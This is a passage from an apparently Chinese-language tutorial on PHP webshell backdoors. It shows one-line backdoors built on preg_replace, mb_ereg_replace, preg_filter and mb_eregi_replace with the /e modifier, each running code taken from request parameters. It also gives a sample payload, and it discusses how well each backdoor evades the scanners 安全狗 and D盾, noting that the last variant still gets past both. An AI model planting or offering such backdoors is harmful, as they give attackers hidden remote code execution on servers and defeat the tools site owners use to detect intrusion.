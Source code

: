 此时提交如下 payload 的话：

```php
shell.php?e=preg_replace
```

最后就相当于执行了如下语句：

```php
preg_replace('|.*|e',$_POST['x'],'')
```

这个时候只需要 POST `x=phpinfo();` 即可。这种主要是利用了 preg_replace 的 /e 模式进行代码执行。

不过这种方法已经凉了，安全狗和 D 盾均可以识别，而且这种 preg_replace 三参数后门的 `/e`模式 PHP5.5 以后就废弃了：

| 安全狗                      | D盾             |
| :-------------------------- | :-------------- |
| 1 个安全风险 array_walk执行 | 级别 5 已知后门 |

不过 PHP 止中不止 preg_replace 函数可以执行 eval 的功能，还有下面几个类似的：

**mb_ereg_replace**

```php
mb_ereg_replace ( string $pattern , string $replacement , string $string [, string $option = "msr" ] ) : string
```

类似于 preg_replace 函数一样，也可以通过 e 修饰符来执行命令：

```php
<?php 
    mb_ereg_replace('\d', $_REQUEST['x'], '1', 'e');
?>
```

**preg_filter**

```php
mixed preg_filter ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count ]] )
```

preg_filter() 等价于 preg_replace() ，但它仅仅返回与目标匹配的结果。

```php
<?php 
    preg_filter('|\d|e', $_REQUEST['x'], '2');
?>
```

只是比较可惜，都无法过狗和D盾了。不过问题不大，感兴趣小伙伴可以去查阅 PHP 官方文档，还是可以找到类似函数的，可以过狗和D盾

```php
<?php 
    mb_eregi_replace('\d', $_REQUEST['x'], '1', 'e');
?>
```


